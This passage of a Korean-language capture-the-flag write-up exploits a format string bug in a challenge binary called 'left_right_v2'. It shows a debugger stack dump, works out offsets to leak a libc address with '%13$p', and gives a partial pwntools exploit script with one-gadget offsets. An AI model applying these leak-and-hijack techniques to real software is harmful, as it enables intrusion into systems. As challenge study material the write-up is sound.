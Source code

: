 [rbp-0x10]에 위치한 값으로 64bit 함수 호출 규약에 의해서 `rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10` 순으로 인자 값을 받아온다. (_대회에서 해당 내용을 잊고 진행하여 최종 익스플로잇을 실패했다._)

`printf` 직후 스택의 모습을 보면 아래와 같다.

```
───────────────────────────────[ STACK ]────────────────────────────────
00:0000│ rdi rsp 0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
01:0008│         0x7ffcd8af5d98 ◂— 0x7c70257c70257c41 ('A|%p|%p|')
02:0010│         0x7ffcd8af5da0 ◂— 0x70257c70257c7025 ('%p|%p|%p')
03:0018│         0x7ffcd8af5da8 ◂— 0x257c70257c70257c ('|%p|%p|%')
04:0020│         0x7ffcd8af5db0 —▸ 0x7ffcd8af5ea0 ◂— 0x1
05:0028│         0x7ffcd8af5db8 ◂— 0x44e72840f049a900
06:0030│ rbp     0x7ffcd8af5dc0 —▸ 0x5584a3d81760 (__libc_csu_init) ◂— endbr64
07:0038│         0x7ffcd8af5dc8 —▸ 0x7f8f3ccc3c87 (__libc_start_main+231) ◂— mov edi, eax
```

따라서, `0x4141414141414141`는 offset 6이고, memory leak이 가능한 `__libc_start_main+231`은 0x34 떨어진 즉, offset 13에 위치한다. 이로써 `%13$p`를 통해서 memory leak이 가능하다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(1))
        p.sendlineafter('move >> \n', str(1))
    p.sendlineafter('opt >> \n', str(1))
    p.sendlineafter('way >> \n', str(1))
    p.sendlineafter('move >> \n', str(1))

def left():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(2))
        p.sendlineafter('move >> \n', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = libc.symbols['__libc_start_main'] + 231
og_list = [0x4f2a5, 0x4f302, 0x10a2fc]

move()
payload = '%13$p'
p.sendlineafter("What's your name?", payload)
```
